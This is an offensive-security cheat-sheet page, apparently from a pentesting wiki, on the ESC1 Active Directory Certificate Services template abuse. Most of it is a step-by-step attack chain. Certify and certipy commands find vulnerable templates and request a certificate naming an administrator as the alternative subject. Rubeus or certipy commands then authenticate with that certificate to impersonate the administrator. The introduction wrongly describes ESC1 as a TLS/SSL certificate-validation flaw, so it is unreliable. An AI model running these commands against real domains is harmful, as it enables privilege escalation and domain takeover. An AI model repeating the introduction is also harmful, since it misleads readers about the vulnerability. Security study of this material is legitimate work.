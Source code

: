 # 🟢 ESC1 – Understand the Arbitrary Subject Alternative Name Vulnerability

### ESC1 – Understand the Arbitrary Subject Alternative Name Vulnerability

The Arbitrary Subject Alternative Name (SAN) Vulnerability refers to a security flaw in certificate validation mechanisms of TLS/SSL protocols.&#x20;

This vulnerability allows attackers to issue certificates that include unauthorized domain names in the SAN field, potentially enabling phishing attacks or man-in-the-middle (MITM) attacks.&#x20;

It stems from inadequate verification of the entities that request certificates and the domains listed in the SAN field.

To mitigate this vulnerability, it's essential to:

* Implement strict validation processes for certificate requests, ensuring that the entity requesting the certificate has legitimate control over the domains listed in the SAN field.
* Use Certificate Transparency logs to monitor and identify potentially malicious certificates.
* Employ modern TLS libraries and configurations that adhere to best practices in certificate validation.

To **find vulnerable certificate templates** you can run:



{% tabs %}
{% tab title="Windows" %}
```
Certify.exe find /vulnerable
```
{% endtab %}

{% tab title="Linux" %}
```
certipy find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128
```
{% endtab %}
{% endtabs %}

To **abuse this vulnerability to impersonate an administrator** one could run:

{% tabs %}
{% tab title="Windows" %}
```
Certify.exe request /ca:dc.theshire.local-DC-CA /template:VulnTemplate /altname:localadmin
```
{% endtab %}

{% tab title="Linux" %}
```
certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
```
{% endtab %}
{% endtabs %}

Then you can transform the generated **certificate to `.pfx`** format and use it to **authenticate using Rubeus or certipy** again:

{% tabs %}
{% tab title="Windows" %}
```
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
```
{% endtab %}

{% tab title="Linux" %}
```
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 
```
{% endtab %}
{% endtabs %}

```bash


```
